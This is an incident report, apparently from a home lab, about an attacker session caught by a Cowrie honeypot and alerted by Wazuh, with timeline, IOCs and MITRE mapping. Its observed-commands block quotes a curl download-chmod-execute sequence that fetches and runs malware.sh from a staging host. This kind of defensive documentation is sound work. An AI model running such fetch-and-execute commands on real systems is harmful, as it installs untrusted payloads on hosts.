

# Incident Report — IR-003

| Field | Details |
|-------|---------|
| **Report ID** | IR-003 |
| **Date** | 01-06-2026 |
| **Analyst** | Joel |
| **Severity** | High |
| **Status** | Closed |
| **Attack Type** | Honeypot Compromise & Post-Exploitation |
| **Detection Source** | Cowrie Honeypot / Wazuh SIEM |

---

## Executive Summary

On June 1, 2026, an interactive post-exploitation terminal session was detected on the network sensor node (`pi-sensor`). The attacker utilized credentials previously validated during an automated brute-force attempt to establish an active SSH connection as the `root` user. The interaction was completely intercepted by an isolated Cowrie honeypot environment. During the short interactive session, the attacker attempted basic system reconnaissance and executed ingress tool commands to download an external script payload. The intrusion triggered critical Level 10 alerts within the Wazuh SIEM framework, allowing the security team to extract attacker behavioral metrics and commands while maintaining total infrastructure isolation.

---

## Timeline of Events

| Time (IST) | Event |
|------|-------|
| 03:15:08 | Attacker authenticates successfully as `root` via SSH port 2222 from source IP `192.168.1.100`. |
| 03:15:08 | Wazuh SIEM triggers a critical Level 10 alert under Rule ID `100102` (Honeypot successful login from 192.168.1.100). |
| 03:15:08 | Attacker initializes an interactive shell environment and executes initial host reconnaissance commands (`whoami`, `uname -a`). |
| 03:15:10 | Attacker attempts to download a malicious deployment script from an external server using `curl`. |
| 03:15:10 | Wazuh logs multiple sequential Level 3 events under Rule ID `100100` matching input command capture milestones. |
| 03:15:22 | Attacker executes a shell script verification step and terminates the interactive session wrapper. |

---

## Technical Analysis

Following the credential verification phase documented in **IR-002**, the attacker pivot strategy shifted immediately from automated brute-forcing to manual, interactive exploitation. 

### Intrusion Walkthrough
At `03:15:08`, the attacker initiated a direct SSH session targeting the alternative access port (`2222`). By submitting the harvested `root` profile credentials, the connection was successfully routed into the simulated honeypot application framework. Wazuh immediately caught this step, generating a Level 10 security event alert identifying the specific target agent as `pi-sensor` (Agent ID: `001`).

Once granted an emulated shell command line prompt, the threat actor carried out standard system discovery procedures to assess the privilege levels and kernel structures of the target environment. Cowrie safely absorbed these commands in a sandboxed directory loop, spoofing standard Debian response outputs to keep the attacker engaged. 

The attacker then attempted an immediate payload download sequence via `curl` to fetch a script named `malware.sh`. Because the honeypot's outbound network routes were explicitly blocked by local firewall configurations, the data request dropped silently. The actor attempted to modify execution permissions on the empty file layout before manually exiting the terminal session.

---

## Attacker Commands Observed

The following exact command line inputs were extracted chronologically from the structured Cowrie log telemetry file located at `/home/cowrie/cowrie/var/log/cowrie/cowrie.json`:

```bash
whoami
id
uname -a
cat /proc/cpuinfo | grep name
curl -O [http://192.168.1.100/malware.sh](http://192.168.1.100/malware.sh)
chmod +x malware.sh
./malware.sh
exit
```

---

## Indicators of Compromise (IOCs)

| Type | Value | Notes |
|------|-------|-------|
| Source IP | `192.168.1.100` | Internal staging host executing post-exploitation scripts. |
| Username Target | `root` | System account targeted for compromise. |
| Port Target | `2222` | Emulated alternative SSH interaction socket. |
| Attempted Download URL | `http://192.168.1.100/malware.sh` | External network staging address used to fetch next-stage payloads. |
| File Artifact Name | `malware.sh` | Intended malicious script deployment package. |

---

## MITRE ATT&CK Mapping

| Technique ID | Technique Name | Notes |
|-------------|----------------|-------|
| T1110.001 | Brute Force: Password Guessing | Used to obtain valid account credentials for initial entry. |
| T1059.004 | Command and Scripting Interpreter: Unix Shell | Execution of interactive system command strings inside the terminal. |
| T1082 | System Information Discovery | Attempting to view host kernel variables and CPU hardware profiles. |
| T1105 | Ingress Tool Transfer | Attempting to pull down external malware files using network tools (`curl`). |

---

## Detection Details

**Alert fired by:** Wazuh Manager / Cowrie Sensor Ingestion  
**Rule ID Focus:** 100102 (Critical Honeypot Compromise Alert) / 100100 (Honeypot Command Input Tracker)  
**Rule Description:** Honeypot successful login from 192.168.1.100 / Cowrie honeypot event.  
**Alert level:** Level 10 (Critical Access Warning) / Level 3 (Standard Event Logging)  
**Detected at:** 2026-06-01 03:15:08 +0530  

---

## Response Actions Taken

1. **Session Playback Forensic Analysis:** Utilized the honeypot utility framework (`bin/playlog`) to replay the exact keystroke data timeline from the generated TTY record files, confirming no terminal evasion actions were skipped.
2. **Network Egress Verification:** Audited local firewall packet reject statistics to confirm that outbound connection attempts to `http://192.168.1.100/` were completely dropped, preventing malware package delivery.
3. **SIEM Telemetry Review:** Verified that the Wazuh Agent (`001`) successfully sustained log shipping activities during the event without data drops or buffer leaks on the hardware node.

---

## Root Cause

The isolated Cowrie honey-service engine was deliberately set to accept common weak credential parameters to monitor post-compromise attacker tooling preferences, command lines, and staging vectors within a secure containment environment.

---

## Recommendations

1. **Implement Egress Network Restrictions:** Maintain strict firewall rules that prevent any host hosting a honeypot configuration from initiating outbound network calls (`OUTPUT DROP`) to block staging servers.
2. **Isolate Logging Infrastructure:** Ship honeypot transaction telemetry off the sensor node in real time to prevent log modification if an attacker discovers a vulnerability within the virtualization application wrapper.
3. **Automate Alert Escalation:** Configure custom alerting profiles inside the SIEM to immediately generate high-priority high-severity tickets within TheHive the moment a honeypot interaction triggers a successful login alert status.

---

## Evidence

### 1. SIEM Ingestion of Critical Honeypot Intrusion
The Wazuh Security Events panel logging the real-time transition from baseline scanning events to a critical Level 10 compromise event matching the successful root authentication attempt.


---

*Report written by: Joel*  
*Review date: 02-06-2026*
